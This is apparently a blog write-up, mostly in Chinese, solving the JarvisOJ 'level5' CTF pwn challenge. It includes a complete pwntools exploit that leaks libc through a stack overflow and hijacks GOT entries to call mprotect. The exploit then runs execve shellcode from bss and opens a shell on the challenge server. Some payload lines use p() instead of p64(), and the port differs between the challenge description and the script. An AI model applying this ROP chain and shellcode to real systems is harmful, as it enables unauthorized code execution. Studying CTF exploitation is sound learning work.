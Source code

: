 ```yaml
---
layout:     post
title:      jarvisoj level5
author:     wooy0ung
tags: 		linux elf pwn
category:  	ctf
---
```



### 0x00 introduction

```
Problem Address:
https://www.jarvisoj.com

Problem Description:
mmap和mprotect练习，假设system和execve函数被禁用，请尝试使用mmap和mprotect完成本题。

Download:
https://dn.jarvisoj.com/challengefiles/level3_x64.rar.8e639c3daf929853a1bc654d79c7992c

Address:
nc pwn2.jarvisoj.com 9883
```
<!-- more -->


### 0x01 IDA分析

system和execve方法被禁用, 利用mprotect改data段到可执行, 其实这题用level3_x64的exp也能getshell

![](/assets/img/ctf/pwn/2017-08-04-jarvisoj-level5/0x00.png)

同样, 在read处溢出, 将read_addr leak出来, 计算mprotect_addr

![](/assets/img/ctf/pwn/2017-08-04-jarvisoj-level5/0x01.png)

劫持 libc_start_main -> mprotect, gmon_start -> bss, 并将shellcode写到bss

最后ret main, 传第二段payload

```
# leak mprotect_addr
payload = ""
payload += 'A' * (0x80 + 0x08)
payload += p64(rdi_ret_addr) + p64(0x01)
payload += p64(rsi_r15_ret_addr) + p64(bin.got['read']) + p64(0)
payload += p64(bin.plt['write'])
# write mprotect_addr
payload += p64(rdi_ret_addr) + p64(0x00)
payload += p64(rsi_r15_ret_addr) + p64(bin.got['__libc_start_main']) + p64(0)
payload += p64(bin.plt['read'])
# write shellcode
payload += p64(rsi_r15_ret_addr) + p64(bin.bss()) + p64(0)
payload += p64(bin.plt['read'])
# write bss_shellcode_addr
payload += p64(rsi_r15_ret_addr) + p64(bin.got['__gmon_start__']) + p64(0)
payload += p64(bin.plt['read'])
payload += p64(bin.symbols['main'])
```

构造call mprotect, 关于mprotect的定义

![](/assets/img/ctf/pwn/2017-08-04-jarvisoj-level5/0x02.png)

关于第三个参数 prot 说明

![](/assets/img/ctf/pwn/2017-08-04-jarvisoj-level5/0x03.png)

利用__libc_csu_init尾部的万能gadgets

![](/assets/img/ctf/pwn/2017-08-04-jarvisoj-level5/0x04.png)

```
x64程序参数传递 :
如果函数的参数数量小于 6 , 则从左至右依次存放在寄存器 : 
rdi, rsi, rdx, rcx, r8, r9
如果大于 6 , 那么多出来的参数按照从右至左的顺序依次压栈

rbx = 0
rbp = 0
r12 = unuse
r13 -> rdx -> arg_2
r14 -> rsi -> arg_1
r15 -> edi -> arg_0
```

最后构造call, 跳到bss就能execute shellcode

```
payload = ""
payload += 'A' * (0x80 + 0x08)
payload += p64(0x4006A6)
# mprotect(0x600000, 0x1000, 7)
payload += 'AAAAAAAA'
payload += p64(0) # pop rbx
payload += p64(1) # pop rbp
payload += p(bin.got['__libc_start_main']) # pop r12
payload += p64(7) # pop r13
payload += p64(0x1000) # pop r14
payload += p64(0x600000) # pop r15
payload += p64(0x400690)
# sh()
payload += 'AAAAAAAA'
payload += p64(0) # pop rbx
payload += p64(1) # pop rbp
payload += p64(bin.got['__gmon_start__']) # pop r12
payload += p(0) # pop r13
payload += p(0) # pop rbx
payload += p(0) # pop rbp
payload += p(0x400690)
```


### 0x02 完整的exploit

在本地成功getshell, 但远程服务器不一定每次都成功, 暂时不知道什么问题, 难道这还有概率？

还有在 macOS 上始终失败, 最后改到在kali上执行, 成功拿到flag

```
#!/usr/bin/python
# -*- coding:utf8 -*-

from pwn import *

Io = remote('pwn2.jarvisoj.com', 9884)
#Io = process('./level5')
bin = ELF('./level5')
libc = ELF('libc-2.19.so')
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

#-------------------------write & hijack---------------------------
rdi_ret_addr = 0x4006b3
rsi_r15_ret_addr = 0x4006b1
# leak mprotect_addr
payload = ""
payload += 'A' * (0x80 + 0x08)
payload += p64(rdi_ret_addr) + p64(0x01)
payload += p64(rsi_r15_ret_addr) + p64(bin.got['read']) + p64(0)
payload += p64(bin.plt['write'])
# write mprotect_addr
payload += p64(rdi_ret_addr) + p64(0x00)
payload += p64(rsi_r15_ret_addr) + p64(bin.got['__libc_start_main']) + p64(0)
payload += p64(bin.plt['read'])
# write shellcode
payload += p64(rsi_r15_ret_addr) + p64(bin.bss()) + p64(0)
payload += p64(bin.plt['read'])
# write bss_shellcode_addr
payload += p64(rsi_r15_ret_addr) + p64(bin.got['__gmon_start__']) + p64(0)
payload += p64(bin.plt['read'])
payload += p64(bin.symbols['main'])

Io.recvuntil('Input:\n')
Io.send(payload)
read_addr = u64(Io.recv()[0:8])
mprotect_addr = read_addr - libc.symbols['read'] + libc.symbols['mprotect']
success("read_addr: " + hex(read_addr))
success("mprotect_addr: " + hex(mprotect_addr))

Io.send(p64(mprotect_addr))

sh = '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'
print len(sh)
Io.send(sh)

Io.send(p64(bin.bss()))

#----------------------------call & getshell----------------------------
payload = ""
payload += 'A' * (0x80 + 0x08)
payload += p64(0x4006A6)
# mprotect(0x600000, 0x1000, 7)
payload += 'AAAAAAAA'
payload += p64(0) # pop rbx
payload += p64(1) # pop rbp
payload += p(bin.got['__libc_start_main']) # pop r12
payload += p64(7) # pop r13
payload += p64(0x1000) # pop r14
payload += p64(0x600000) # pop r15
payload += p64(0x400690)
# sh()
payload += 'AAAAAAAA'
payload += p64(0) # pop rbx
payload += p64(1) # pop rbp
payload += p64(bin.got['__gmon_start__']) # pop r12
payload += p(0) # pop r13
payload += p(0) # pop rbx
payload += p(0) # pop rbp
payload += p(0x400690)

Io.recvuntil('Input:\n')
Io.send(payload)
Io.interactive()
```

getshell

![](/assets/img/ctf/pwn/2017-08-04-jarvisoj-level5/0x05.png)